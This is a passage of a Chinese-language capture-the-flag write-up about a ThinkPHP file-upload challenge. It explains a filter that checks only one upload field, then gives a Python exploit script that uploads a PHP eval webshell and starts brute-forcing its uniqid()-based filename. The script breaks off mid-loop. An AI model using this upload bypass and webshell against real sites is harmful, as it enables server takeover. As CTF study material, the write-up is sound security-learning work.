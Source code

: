 ```
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```

给出了文件上传的地址和信息`$upload->rootPath = './Public/Uploads/';`，访问发现没有WEB页面上传的点，应该是用脚本上传
对这里的上传页面，由于这是一个thinkphp的站点，于是去看了thinkphp的内容，[参考文章](https://www.kancloud.cn/manual/thinkphp/1713)

这里对控制器说明比较详细。
一般来说，ThinkPHP的控制器是一个类，而操作则是控制器类的一个公共方法。

下面就是一个典型的控制器类的定义：

```
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function hello(){
        echo 'hello,thinkphp!';
    }
} 
```

`Home\IndexController`类就代表了Home模块下的Index控制器，而hello操作就是`Home\IndexController`类的hello（公共）方法。

当访问 `http://serverName/index.php/Home/Index/hello` 后会输出：

```
hello,thinkphp! 
```

于是可以判断这个文件上传类的调用地址为：`/index.php/home/index/upload`。

不过限制了`.php`，仔细看才发现，代码只会过滤 `$_FILES['file']` 中的文件。所以可以上传两个文件，一个name为file的正常图片，另一个name为其他的webshell。
但是最后会打印出 `$_FILES['file']` 的文件地址，而不会打印我们shell的地址，但是我们发现最后他对文件命名用`uniqid()`函数来命名的，这个函数是根据时间生成文件名，两个文件上传时间近可以通过爆破得到我们上传的shell的文件名。

```
import requests
import re
import time
import sys

reload(sys)
sys.setdefaultencoding("utf8")

url = 'http://2b9a88ad-f688-4ede-b6e3-ac18aae091f2.node3.buuoj.cn'

url_1 = url + "/index.php/home/index/upload"

file = {"file":("a.txt",'a'), "file1":("a.php", '<?php eval($_GET["a"]);')}

r = requests.post(url=url_1,files=file)

print r.content

t1 = r.text.split("/")[-1].split(".")[0]
t1 = int(t1,16)

j = t1 

while True:
    path = url + "/Public/Uploads/2019-10-19/%s.php" % hex(j)[2:-1]
    try:
```